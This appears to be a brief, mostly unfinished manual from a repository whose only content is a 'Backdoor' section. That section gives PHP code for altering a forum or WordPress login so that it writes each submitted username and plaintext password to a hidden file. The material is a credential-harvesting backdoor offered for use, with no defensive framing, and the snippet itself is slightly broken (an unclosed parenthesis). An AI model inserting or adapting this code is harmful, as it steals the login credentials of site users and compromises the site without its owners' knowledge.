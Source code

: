 # Manual

TODO: Fill in the info

## Backdoor

- Backdoor user login forum to harvest the credentials in clear text.

```php
if(!empty($_POST['pwd']) {
	$credentials['user_password'] = $_POST['pwd'];
	// file_put_contents("wp-include/.user.php", "WP: " . $_POST['log']
	file_put_contents("/path/to/wp-include/.user.php", "<change_this>: " . $_POST['<change_this>']
			. " : " . $_POST['pwd'] . "\n", FILE_APPEND);
}
```